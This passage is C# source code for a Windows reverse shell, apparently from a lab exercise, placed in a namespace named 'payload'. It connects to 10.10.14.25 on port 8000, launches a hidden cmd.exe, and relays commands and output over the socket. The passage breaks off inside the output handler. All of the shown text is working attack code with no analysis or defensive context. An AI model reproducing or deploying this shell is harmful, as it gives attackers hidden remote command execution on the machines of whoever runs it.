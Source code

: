 ```C#
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace payload
{
	public class Run
	{
		static StreamWriter streamWriter;

		public Run()
		{
			using(TcpClient client = new TcpClient("10.10.14.25", 8000))
			{
				using(Stream stream = client.GetStream())
				{
					using(StreamReader rdr = new StreamReader(stream))
					{
						streamWriter = new StreamWriter(stream);
						
						StringBuilder strInput = new StringBuilder();

						Process p = new Process();
						p.StartInfo.FileName = "cmd";
						p.StartInfo.CreateNoWindow = true;
						p.StartInfo.UseShellExecute = false;
						p.StartInfo.RedirectStandardOutput = true;
						p.StartInfo.RedirectStandardInput = true;
						p.StartInfo.RedirectStandardError = true;
						p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
						p.Start();
						p.BeginOutputReadLine();

						while(true)
						{
							strInput.Append(rdr.ReadLine());
							//strInput.Append("\n");
							p.StandardInput.WriteLine(strInput);
							strInput.Remove(0, strInput.Length);
						}
					}
				}
			}
		}
        public static void Main(string[] args)
		{
            new Run();
        }
		private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
```